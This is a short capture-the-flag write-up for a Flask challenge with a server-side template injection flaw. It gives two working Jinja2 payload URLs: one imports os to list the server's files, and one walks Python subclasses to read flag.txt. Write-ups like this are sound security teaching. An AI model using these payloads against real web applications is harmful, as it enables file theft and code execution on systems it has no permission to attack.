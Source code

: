 \
## Hey Buddy!

![img](https://i.ibb.co/pdSMfVs/image.png)

### Solution:

This challenge is developed using flask and it contains the SSTI (Server Side Template Injection) vulnerability. It has two steps to exploit.

Step 1: Checking where is the flag file location

```
https://h3y-buddy.vishwactf.com/submit?name={{request.application.__globals__.__builtins__.__import__(%27os%27).listdir()}}
```
![img](https://i.ibb.co/nksZN8w/image.png)

Step 2: Reading flag file using the vulnerability

```
https://h3y-buddy.vishwactf.com/submit?name={{%27abc%27.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0](%27flag.txt%27).read()}}
```

![img](https://i.ibb.co/tLrfQyX/image.png)
